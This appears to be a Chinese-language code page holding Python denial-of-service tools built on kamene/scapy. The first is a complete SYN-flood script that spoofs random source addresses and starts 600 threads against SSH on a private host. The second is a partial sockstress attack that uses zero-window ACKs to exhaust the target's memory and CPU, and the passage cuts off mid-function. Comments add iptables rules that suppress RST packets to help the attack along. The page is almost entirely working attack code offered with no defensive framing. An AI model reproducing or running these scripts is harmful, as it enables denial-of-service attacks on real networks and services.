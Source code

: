 1、syn 攻击

```javascript
#coding=utf-8
import socket, sys, random
from kamene.all import *
import time, threading

# scapy.config.conf.iface = 'Realtek PCIe GBE Family Controller'

# windows 系统半开连接数是10个
# iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 192.168.1.10 -j DROP
# 匹配所有半开放链接 netstat -n | awk '/^tcp/ {++S[$NF]} END{for(a in S) print a,S[a]}'
# ip = IP()
# ip.dst="192.168.1.10"
# tcp=TCP()
# sr1(ip/tcp,verbose=1,timeout=3)
# sr1(IP(dst="192.168.1.10")/TCP())
def Attack():
    target = "172.20.30.52"
    dstport = 22
    isrc = '%i.%i.%i.%i' % (random.randint(1,254),random.randint(1,254),random.randint(1,254), random.randint(1,254))
    # isrc = "172.20.30.71"
    print(isrc,dstport)

    isport = random.randint(1,65535)
    ip = IP(src = isrc,dst = target)
    syn = TCP(sport = isport, dport = dstport, flags = 'S')
    send(ip / syn, verbose = 0)

for i in range(600):
    t = threading.Thread(target=Attack)
    t.start()
```



2、tcp攻击





```javascript
#coding=utf-8
# iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 被害IP -j DROP
from optparse import OptionParser
import socket,sys,random,threading
from kamene.all import *

# scapy.config.conf.iface = 'ens32'

# 攻击目标主机的Window窗口,实现目标主机内存CPU等消耗殆尽
def sockstress(target,dstport):
    semaphore.acquire()       # 加锁
    isport = random.randint(0,65535)
    response = sr1(IP(dst=target)/TCP(sport=isport,dport=dstport,flags="S"),timeout=1,verbose=0)
    send(IP(dst=target)/ TCP(dport=dstport,sport=isport,window=0,flags="A",ack=(response[TCP].seq +1))/'\x00\x00',verbose=0)
    print("[+] sendp --> {} {}".format(target,isport))
    semaphore.release()       # 释放锁

# 攻击目标主机TCP/IP半开放连接数,windows系统半开连接数是10个
def synflood(target,dstport):
    semaphore.acquire()       # 加锁
    issrc = '%i.%i.%i.%i' % (random.randint(1,254),random.randint(1,254),random.randint(1,254), random.randint(1,254))
```